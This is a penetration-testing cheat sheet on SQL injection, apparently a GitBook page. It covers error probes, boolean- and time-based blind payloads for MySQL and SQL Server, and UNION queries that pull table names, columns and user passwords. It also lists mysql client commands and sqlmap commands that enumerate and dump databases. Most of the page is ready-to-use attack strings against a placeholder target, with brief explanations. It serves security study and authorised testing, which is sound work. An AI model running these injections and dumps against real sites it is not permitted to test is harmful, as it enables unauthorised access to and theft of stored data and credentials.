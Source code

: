 ```yaml
---
description: SQL Injection
---
```


# SQLi

SQL Injection is a web security vulnerability that allows an attacker to interfer with the queries that an application makes to its database.

It generally allows an attacker to view data that they are not normally able to retrieve. This might include data belonging to other users or any other data that the application itself is able to access.

To test SQLi, we will put special characters into the input fields and observe errors returned by the application.&#x20;

```bash
'
"
')
")
'; -- 
"; --
'); -- 
"); --
' or 1=1; --
' or 1; --
' or 'a'='a
SELECT @@version  # Determine what the database information is
```

## Manual&#x20;

```bash
 http://target/comment.php?id=1'
 http://target/comment.php?id=1 order by 6
 http://target/comment.php?id=1 union all select 1,2,4,5,6
 http://target/comment.php?id=1 union all select 1,2,4,table_name,6 from information_schema.tables
 http://target/comment.php?id=1 union all select 1,2,4,column_name,6 from information_schema.columns where table_name='users'
 http://target/comment.php?id=1 union all select 1,2,4,concat(name,0x3a,password),6 FROM users
```

## Blind SQLi

Generally occurs when an application is vuln do SQLi but it does not return an error, which makes identifying and exploiting SQLi more difficult. Concatenating strings for known good values can determine if the SQL database is directing interpreting the values we're providing.

* **Boolean based**

```bash
user' AND 1; --  # Test if value is true, if user is a valid user then it returns good
user' AND 0; --  # Test if SQLi is being interpreted, known good username but always false 0
```

* **Time based**

```bash
# MySQL

id=1-SLEEP(15)  # Resulting query (with malicious SLEEP injected).
id=1-BENCHMARK(100000000, rand())  # Resulting query (with malicious BENCHMARK injected).

# SQLServer

id=1; WAIT FOR DELAY '00:00:15'  # Resulting query (with malicious SLEEP injected).
id=1; IF SYSTEM_USER='sa' WAIT FOR DELAY '00:00:15'  # Resulting query (verify if user is sa).
```

## Union Attack

&#x20;_When an application is vulnerable to SQL injection and the results of the query are returned within the application's responses, the `UNION` keyword can be used to retrieve data from other tables within the database. This results in an SQL injection UNION attack._

&#x20;_The `UNION` keyword lets you execute one or more additional `SELECT` queries and append the results to the original query. For example:_

&#x20;_ `SELECT a, b FROM table1 UNION SELECT c, d FROM table2`_

&#x20;_This SQL query will return a single result set with two columns, containing values from columns `a` and `b` in `table1` and columns `c` and `d` in `table2`_

&#x20;For a `UNION` query to work, two key requirements must be met:

* &#x20;**The individual queries must return the same number of columns.**
* &#x20;**The data types in each column must be compatible between the individual queries.**



* [https://portswigger.net/web-security/sql-injection/union-attacks](https://portswigger.net/web-security/sql-injection/union-attacks)

## Tools

### mysql cheat sheet

```bash
# Built-in mysql tools
mysql -u root    # Attempt to connect to db as root user, default is no pass
mysql -u root -p -h 10.10.10.1    # Connect to db at host 10.10.10.1 as root, prompts for password
mysql -u user1 -puser1pass    # Connect to local db. NOTE no space after '-p' for password!
mysqlshow -u something -psomethingpassword    # Again, NO SPACE AFTER -p FOR PASSWORD

# Inside the mysql shell
show databases;          # List all dbs on server  
use wordpress;           # Use a specific db
show tables;             # Show all tables for current db
describe wp_users;       # Show columns for a specific table
select * from wp_users;  # Dump all records from a table
```

### sqlmap

```bash
sqlmap -u "https://target.com/dir" # Without GET parameter
sqlmap -u "https://target.com/dir.php?id=1"  # With GET parameter

sqlmap –u "http://target.com/login.php" –data 'user=brun0&pass=something' # POST request with data
sqlmap -u "http://target.com/dir.php?id=1&Search=Submit" -p id # Testing id parameter

```

* **If we find SQLi in the target website then we can use the following commands.**

```bash
sqlmap -u "http://target.com/login.php?id=1" --dbs       # Lists all dbs on the host
sqlmap -u "http://target.com/login.php?id=1" -D DB_NAME --tables    # Lists all tables inside all dbs on host
sqlmap -u "http://target.com/login.php?id=1" -D DB_NAME -T TB_NAME --columns # List all columns
sqlmap -u "http://target.com/login.php?id=1" -D DB_NAME -T TB_NAME -C "col1,col2" --dump # List info from columns
sqlmap -u "http://target.com/login.php?id=1" -D DB_NAME --dump # Dump the database
```

## References

* [https://tools.kali.org/vulnerability-analysis/sqlmap](https://tools.kali.org/vulnerability-analysis/sqlmap)
* [https://gitbook.seguranca-informatica.pt/cheat-sheet-1/web/sql-injection](https://gitbook.seguranca-informatica.pt/cheat-sheet-1/web/sql-injection)
